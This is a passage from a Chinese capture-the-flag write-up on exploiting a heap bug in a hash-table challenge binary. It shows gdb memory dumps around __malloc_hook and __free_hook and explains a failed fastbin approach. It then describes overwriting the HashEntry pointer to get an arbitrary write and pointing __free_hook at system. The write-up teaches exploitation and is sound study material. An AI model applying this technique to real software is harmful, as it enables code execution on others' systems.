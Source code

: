 但是在栈上输入的时候就需要把 payload 布置好了，而system函数的地址是必定包含\x00的，所以即使你输入足够长的字符串，想malloc 出正确的 fastbin，但是 strdup 会在\x00处截断字符串，所以字符串的长度就有可能偏小，从而 malloc 不到正确的 fastbin。在 free_hook和 malloc_hook 的周围观察了一圈，各自只有一个地址可以绕过 size 的 check，但是那个地方与 hook 的距离不够，无法malloc 到篡改过的 fastbin。

```assembly
gdb-peda$ x/30gx 0x7ffff7dd1b10-0x80
0x7ffff7dd1a90 <_IO_wide_data_0+208>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1aa0 <_IO_wide_data_0+224>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ab0 <_IO_wide_data_0+240>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ac0 <_IO_wide_data_0+256>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ad0 <_IO_wide_data_0+272>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260	0x0000000000000000
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a93270	0x00007ffff7a92e50
0x7ffff7dd1b10 <__malloc_hook>:	0x00007ffff7a92c80	0x0000000000000000
```

程序运行到入口时 free_hook附近的状态，

```assembly
gdb-peda$ x/20gx 0x7ffff7dd37a8-0x80
0x7ffff7dd3728 <proc_file_chain_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3738:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3748 <dealloc_buffers>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3758 <_IO_list_all_stamp>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3768 <list_all_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3778 <_IO_stdfile_2_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3788 <_IO_stdfile_1_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3798 <_IO_stdfile_0_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37a8 <__free_hook>:	0x0000000000000000	0x0000000000000000
```

运行到某个状态 free_hook附近的状态

```assembly
gdb-peda$ x/30gx 0x7fbc1d6377a8-0x80
0x7fbc1d637728 <proc_file_chain_lock+8>:	0x0000000000000000	0x0000000000000000
0x7fbc1d637738:	0x0000000000000000	0x0000000000000000
0x7fbc1d637748 <dealloc_buffers>:	0x0000000000000000	0x0000000000000000
0x7fbc1d637758 <_IO_list_all_stamp>:	0x0000000000000000	0x0000000000000000
0x7fbc1d637768 <list_all_lock+8>:	0x0000000000000000	0x0000000000000000
0x7fbc1d637778 <_IO_stdfile_2_lock+8>:	0x0000000000000000	0x0000000000000000
0x7fbc1d637788 <_IO_stdfile_1_lock+8>:	0x0000000000000000	0x0000000100000001
0x7fbc1d637798 <_IO_stdfile_0_lock+8>:	0x00007fbc1d842700	0x0000000000000000
0x7fbc1d6377a8 <__free_hook>:	0x0000000000000000	0x0000000000000000
```

都没有可以利用的地址。



### 正确的思路

后来发现自己白白绕了一大圈，既然已经可以改掉 HashEntry 结构体的内容，那么直接改掉结构体中HashCode的值，然后调用editHashCode就可以修改任意地址的值了。直接把free_hook改成 system 函数的地址。

```C
/* deleteHashEntry 中的free代码 */  
if ( idx >= 0 && idx <= 99999 && ptr[idx] )
  {
    free(ptr[idx]->entryName);
    free(ptr[idx]->HashCode);
    free(ptr[idx]);
    ptr[idx] = 0LL;
    result = 0LL;
  }
```
